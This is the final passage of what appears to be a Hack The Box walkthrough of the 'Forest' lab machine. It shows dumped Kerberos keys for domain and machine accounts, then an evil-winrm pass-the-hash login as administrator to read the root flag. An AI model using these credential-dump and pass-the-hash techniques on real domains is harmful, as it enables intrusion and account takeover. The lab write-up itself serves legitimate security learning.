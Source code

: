 ```
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
FOREST$:aes256-cts-hmac-sha1-96:7711cbb5ca057223c6f7ea9c86392d52020d6f274c2ed0233778b0f7c6e2fb42
FOREST$:aes128-cts-hmac-sha1-96:b155f92cca7761d7b6683ac144182318
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 

```
- We got everything we can, "we" successfully acheived a hacker's dream, Logged in using winrm as administrator and got the {{< keyword >}} Root flag {{< /keyword >}} 
```
❯ evil-winrm -u administrator -H 32693b<hidden> -i htb.local                                  
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
<redacted>

```
{{< typeit >}}
This concludes my walkthrough, see ya... In the mean time check out my other posts 😏
{{< /typeit >}}

![Conclusion](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExeTJwbWhqdjJueXU5enR0enB1dXlvYmg5ZzNpMjA0b3UyZWkweGplbyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/ntl8yJ3ctzYHdJPm02/giphy.gif) 
